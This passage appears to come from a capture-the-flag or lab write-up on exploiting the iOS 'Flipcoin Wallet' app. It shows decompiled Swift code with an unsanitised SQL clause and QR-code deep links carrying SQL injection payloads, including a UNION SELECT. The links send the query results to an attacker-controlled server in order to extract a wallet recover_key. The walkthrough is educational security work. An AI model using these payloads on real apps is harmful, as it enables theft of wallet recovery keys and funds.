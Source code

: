 Now, upon opening this file, we can see that we have a table called `wallet` with 5 parameters: `id`, `address`, `amount`, `currency`, `recover_key`.

So how can we get this `recover_key` on our server? Looking again into the `_$s15Flipcoin_Wallet13SceneDelegateC5scene_15openURLContextsySo7UISceneC_ShySo16UIOpenURLContextCGtF` function, we can see an SQL injection in the following line:

```c
//_$s15Flipcoin_Wallet13SceneDelegateC5scene_15openURLContextsySo7UISceneC_ShySo16UIOpenURLContextCGtF
...

local_190 = auVar34;
_$sSS21_builtinStringLiteral17utf8CodeUnitCount7isASCIISSBp_BwBi1_tcfC
            ("WHERE amount >",0xe,1);
local_758 = extraout_x1_01;
_$ss26DefaultStringInterpolationV13appendLiteralyySSF();
_swift_bridgeObjectRelease(local_758);
_swift_bridgeObjectRetain(local_6c8._8_8_);

...
```

This line accepts user input without proper sanitization, leaving it vulnerable to SQL injection.

### Exploiting the app

Let's generate a QR code with the deep link to confirm our injection:

```
flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0003/**/AND/**/id=2;--&testnet=http://192.168.0.122
```

Using this when scanning the QR code, we obtain a different `address` on the server, confirming our SQL injection. Now, how can we change the field to appear so that instead of being the `address`, it's the `recover_key`? For this, we can use a [SQL injection Union attack](https://portswigger.net/web-security/sql-injection/union-attacks).

To explore this, let's create a QR code with a deep link with a Union Attack with the following text:
```
flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0003/**/UNION/**/SELECT/**/1,2,3,4,5/**/LIMIT/**/1;--&testnet=http://192.168.0.122
```

Scanning the QR code, we get on our server the value 2, meaning that the query has 5 members in the select and we can inject on the number 2.
```json
//Response received in webserver
{
    "jsonrpc":"2.0"
    ,"method":"web3_sha3",
    "params":[
    "2", 
    "d4735e3a265e16eee03f59718b9b5d03019c07d8b6c51f90da3a666eec13ab35"
    ],
    "id":1
}
```
